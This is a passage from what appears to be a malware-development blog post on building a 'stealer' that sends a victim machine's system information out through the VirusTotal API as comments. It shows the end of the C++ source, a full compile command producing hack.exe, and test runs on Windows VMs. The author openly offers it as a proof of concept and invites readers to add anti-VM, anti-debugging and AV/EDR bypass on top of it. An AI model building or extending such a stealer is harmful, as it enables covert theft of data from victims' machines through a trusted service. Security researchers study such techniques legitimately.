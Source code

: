 ```cpp
  int result = sendToVT(systemInfo);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

This is also not such a complex stealer, because it is just a “dirty PoC” and in real attacks, attackers use stealers with more complex logic.    

Also, as you can see, we haven't used tricks here like anti-VM, anti-debugging, AV/EDR bypass, etc. So you can add them based on my code if you need.     

### demo

Let's check everything in action.     

Compile our "stealer" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -liphlpapi -lwinhttp
```

![malware](/assets/images/126/2024-06-25_14-10.png){:class="img-responsive"}      

And run it on my Windows 11 VM:    

```powershell
.\hack.exe
```

![malware](/assets/images/126/2024-06-25_16-14.png){:class="img-responsive"}      

![malware](/assets/images/126/2024-06-25_16-44.png){:class="img-responsive"}      

As you can see, a test comment `meow-meow` was created but the comment with system information did not appear because initially the code was separated by a `\n` symbol and not a comma, but I corrected everything and everything worked:    

![malware](/assets/images/126/2024-06-25_22-53.png){:class="img-responsive"}      

So, our logic worked perfectly!    

If we run it on my Windows 10 VM:    

```powershell
.\hack.exe
```
